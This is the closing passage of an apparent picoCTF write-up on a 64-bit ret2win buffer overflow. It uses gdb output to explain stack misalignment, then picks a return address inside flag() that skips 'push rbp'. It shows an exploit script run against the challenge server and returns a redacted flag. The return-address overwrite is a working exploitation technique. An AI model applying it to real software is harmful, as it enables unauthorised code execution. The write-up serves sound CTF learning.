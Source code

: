 However, because we immediately jump to **flag()** without using a `call`, `rsp` remains aligned at the prologue of `flag()` and becomes misaligned after `push %rbp`.

We can verify this using `gdb`
```
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/giorgos/Downloads/vuln < <(printf "$(python script.py payload)")
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome to 64-bit. Give me a string that gets you the flag: 

Breakpoint 1, 0x00000000004012cf in vuln ()
(gdb) ni 2
0x00000000004012d1 in vuln ()
(gdb) disas
Dump of assembler code for function vuln:
...
   0x00000000004012d0 <+30>:	leave
=> 0x00000000004012d1 <+31>:	ret
End of assembler dump.
(gdb) print/x $rsp
$1 = 0x7fffffffda08
```

We examine the value of `rsp` just before the `ret` of `vuln()`.  
We see that it is misaligned by 8 bytes.  
`ret` will pop 8 bytes off the stack which are the return address.  
Now `rsp` will be aligned entering `flag()`.  
```
(gdb) ni
0x000000000040123a in flag ()
(gdb) print/x $rsp
$2 = 0x7fffffffda10
```

Since we don't care about program execution after the flag, we can skip `push rbp` and use the address of the next instruction as our return address leading to correct alignment of `rsp` inside `flag()`

**New return address:** 0x000000000040123b

We change the value of `win_addr` in our script inside `execute()` with `40123b` and rerun the script
```
$ python script.py execute
[+] Opening connection to saturn.picoctf.net on port 60503: Done
[+] Receiving all data: Done (34B)
[*] Closed connection to saturn.picoctf.net port 60503
picoCTF{____REDACTED____}
```

## Solution
- Find distance of `buf` in `vuln()` from the return address
- Override return address with the address of `0x000000000040123b` inside `flag()`